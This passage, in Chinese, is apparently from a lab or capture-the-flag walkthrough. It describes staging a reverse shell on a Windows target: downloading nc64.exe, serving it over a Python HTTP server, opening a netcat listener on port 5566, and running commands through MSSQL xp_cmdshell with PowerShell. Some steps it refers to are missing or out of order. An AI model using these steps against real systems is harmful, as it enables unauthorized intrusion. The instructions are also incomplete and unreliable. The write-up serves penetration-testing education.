 
我们试着得到一个稳定的逆壳层。我们将把nc64.exe二进制文件上传到目标机器，并在侦听端口上执行交互式cmd.exe进程。

我们可以从[这里](https://github.com/int0x33/nc.exe/blob/master/nc64.exe)下载nc文件。

我们导航到该文件夹，然后使用以下命令启动简单的HTTP服务器。

```
proxychains4 wget https://github.com/int0x33/nc.exe/blob/master/nc64.exe
python3 -m http.server 8000
```

然后在不同的选项卡中启动netcat侦听5566端口

```
nc -lvnp 5566
```

为了在目标系统中上传nc.exe二进制文件，我们需要找到相应的文件夹。我们将使用PowerShell完成以下任务，因为它提供了比常规命令提示符更多的功能。为了使用它，我们必须在每次执行它时指定它，直到得到反向shell。要做到这一点，我们将使用以下语法

-c标志指示powershell执行该命令。

我们将通过发出以下命令打印当前工作目录:

我们找到了要放置二进制文件的文件夹。要做到这一点

```
EXEC xp_cmdshell "powershell -c pwd"
```

![image-20230607215200098](图片/image-20230607215200098.png)



作为用户原型\sql_svc，我们没有足够的权限在系统目录中上传文件，只有用户Administrator才能以更高的权限执行操作。我们需要将当前工作目录更改到用户的主目录中的某个位置，以便可以写入。在快速枚举之后，我们发现Downloads可以完美地为我们放置二进制文件。为了做到这一点，我们将使用PowerShell中的wget工具

```
EXEC xp_cmdshell 'whoami'
```

![image-20230607215604563](图片/image-20230607215604563.png)

